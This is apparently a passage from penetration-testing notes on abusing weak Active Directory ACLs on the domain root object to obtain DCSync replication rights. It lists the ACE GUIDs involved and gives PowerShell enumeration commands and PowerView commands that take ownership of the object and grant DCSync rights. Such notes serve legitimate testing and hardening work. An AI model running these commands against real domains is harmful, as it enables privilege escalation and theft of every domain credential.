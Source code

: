 The exploitable permissions, presented below, are of particular interest if
attributed for one of the following groups:
  - `Everyone`, SID: `S-1-1-0`
  - `Anonymous`, SID: `S-1-5-7`
  - `Authenticated Users`, SID: `S-1-5-11`
  - `Users`, SID: `S-1-5-32-545`
  - `Domain Users`, SID: `S-1-5-<DOMAIN>-513`
  - `Domain Computers`, SID: `S-1-5-<DOMAIN>-515`

### Domain root object exploitation

The domain root object yields the replication rights on the domain, necessary
to make use of the `DRSUAPI` replication functions and that can be leveraged to
conduct a `DCSync` attack.

The privileges on the `domain root object` necessary to make replication
requests through the `DRSUAPI` are as follow:
  - Replicating Directory Changes (`Ds-Replication-Get-Changes`,
    `ACE GUID: 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`)
  - Replicating Directory Changes All (`Ds-Replication-Get-Changes-All`,
    `ACE GUID: 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`)

The ownership of the `domain root object`, or the `WriteOwner`, `WriteDACL`,
`GenericAll` (on all properties, i.e the `ObjectGuid` of the `ACE` being equal
to `00000000-0000-0000-0000-000000000000`) privileges on the
`domain root object` can be, directly or indirectly, leveraged to grant the
`Ds-Replication-Get-Changes` and `Ds-Replication-Get-Changes-All` privileges
on the domain.

```bash
# DOMAIN_ROOT_OBJECT = "DC=LAB,DC=AD" for example

# Direct replication rights
Get-ACL -Path "AD:<DOMAIN_ROOT_OBJECT>" | Select -ExpandProperty Access | ? ObjectType -match '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2|1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'

# Rights that can be leveraged to modify the domain root object ACL to grant the privileges required for DRSUAPI replication
Get-ACL -Path "AD:<DOMAIN_ROOT_OBJECT>" | Select -ExpandProperty Access | ? ActiveDirectoryRights -match 'GenericAll|WriteDacl|WriteOwner'
```

The privileges above can be exploited either using the GUI `RSAT`'s `dsa.msc`
utility or using the following `PowerView` PowerShell cmdlets:

```bash
# Specifies ownership of the domain root object if needed (exploits having WriteOwner privilege on the domain root object with out the GenericAll or WriteDACL privileges)
Set-DomainObjectOwner -Verbose -Identity <DOMAIN_ROOT_OBJECT> -OwnerIdentity <SamAccountName | DistinguishedName | SID | GUID>
Set-DomainObjectOwner -Verbose -Server <DC_HOSTNAME | DC_IP> -Domain <DOMAIN_FQDN> -Credential <PSCredentials> -Identity <DOMAIN_ROOT_OBJECT> -OwnerIdentity <SamAccountName | DistinguishedName | SID | GUID> -Verbose

# Once the domain owner is changed, the GenericAll privilege can be granted to users using the new owner identity
Add-DomainObjectAcl -Verbose -TargetIdentity <DOMAIN_ROOT_OBJECT> -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights DCSync
Add-DomainObjectAcl -Verbose -Server <DC_HOSTNAME | DC_IP> -Domain <DOMAIN_FQDN> -Credential <PSCredentials> -TargetIdentity <DOMAIN_ROOT_OBJECT> -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights DCSync
```
